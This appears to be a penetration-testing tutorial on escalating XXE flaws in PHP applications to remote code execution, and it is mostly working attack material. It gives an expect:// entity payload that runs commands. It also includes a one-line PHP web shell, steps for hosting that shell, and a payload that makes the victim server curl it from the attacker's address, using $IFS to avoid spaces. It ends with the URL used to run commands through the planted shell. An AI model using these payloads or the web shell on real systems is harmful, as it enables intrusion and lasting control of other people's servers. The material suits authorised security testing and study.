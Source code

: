 # Remote Code Execution (RCE) via XXE

Goal: Go beyond file disclosure and achieve command execution through vulnerable XML parsers, typically on PHP-based apps.
# 1. Using `expect://` Wrapper (PHP-only)

PHP supports a special wrapper called `expect://` that executes commands. Only works if the `expect` extension is enabled (not by default).

Example:

```xml
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "expect://id">
]>
<email>&xxe;</email>
```

If the output of `id` is reflected in response, RCE is confirmed.

Works only if:

- `expect` module is installed
- Output is reflected in an XML element
# 2. Dropping a Web Shell with `curl`

If command output isn’t shown (blind), you can drop a reverse shell by having the server download your web shell from your machine.

### Step 1: Create `shell.php`

```php
<?php system($_REQUEST["cmd"]); ?>
```

Host it:

```bash
python3 -m http.server 80
```

### Step 2: XXE Payload using `expect://curl`

```xml
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "expect://curl$IFS-O$IFS'http://YOUR_IP/shell.php'">
]>
<email>&xxe;</email>
```

- `$IFS` is used to avoid XML-breaking spaces    
- If successful, `shell.php` is dropped into current working directory

### Step 3: Access shell

```bash
http://victim-ip/shell.php?cmd=id
```

If you can access the uploaded file in a browser, you now have a full RCE shell via web.

# 3. When to Use This

- Prefer file disclosure first
- Use RCE only when necessary (e.g. you need persistence or reverse shell)
- Works only on PHP targets where either:
    - `expect://` is enabled
    - PHP can write to web directory

Avoid special characters like `>`, `|`, `{` unless encoded or obfuscated
